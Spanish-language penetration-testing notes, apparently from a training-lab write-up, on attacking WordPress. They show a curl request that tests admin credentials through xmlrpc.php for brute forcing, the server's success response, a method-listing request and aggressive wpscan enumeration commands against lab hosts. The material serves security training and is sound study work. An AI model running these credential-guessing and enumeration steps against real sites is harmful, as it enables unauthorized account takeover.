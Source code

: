 ### [](#header-3)Login
Una vez que tengamos una lista valida de usuarios, Podemos hacer un ataque de fuerza bruta forzando a entrar por el panel de login o el archive xmlrpc.php
Si nuestro POST contra el archive xmlrpc contiene credenciales validas, obtendremos una salida como esta:
```s 
curl -X POST -d "<methodCall><methodName>wp.getUsersBlogs</methodName><params><param><value>admin</value></param><param><value>CORRECT-PASSWORD</value></param></params></methodCall>" http://blog.inlanefreight.com/xmlrpc.php
```
```xml
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://blog.inlanefreight.com/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>Inlanefreight</string></value></member>
  <member><name>xmlrpc</name><value><string>http://blog.inlanefreight.com/xmlrpc.php</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
```

Si no es valida, obtendremos un codigo de respuesta 403.

Arme un commando de wfuzz para hacer un ataque e fuerza bruta una vez que tengamos usaurios validos

Para ver los metodos posibles a ejecutar, Podemos usar:
```xml
<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>
```
```s 
curl -X POST -d "<methodCall><methodName>system.listMethods</methodName><params></params></methodCall>" http://www.hackerscentral.com.mx/xmlrpc.php
```

Ahora, al usar wp-scan, Podemos usar un api de <a href="https://wpscan.com/"> wpscan</a> , el commando a ejecutar sera 
```s 
wpscan --api-token API --url http://192.168.1.10
#Enumeracion agresiva, esta si trae resultados diferentes
wpscan --api-token API --url http://backdoor.htb --disable-tls-checks -e ap --plugins-detection aggressive
```
## [](#header-2)Enumeracion con wpscan
Por default, wpscan enumera plugins vulnerables, temas, usuarios, media y backups. 
Podemos usar las flags para solicitor components especificos del sitio como por ejemplo los plugins con:
```s
wpscan --url http://blog.inlanefreight.com --enumerate ap --api-token
```
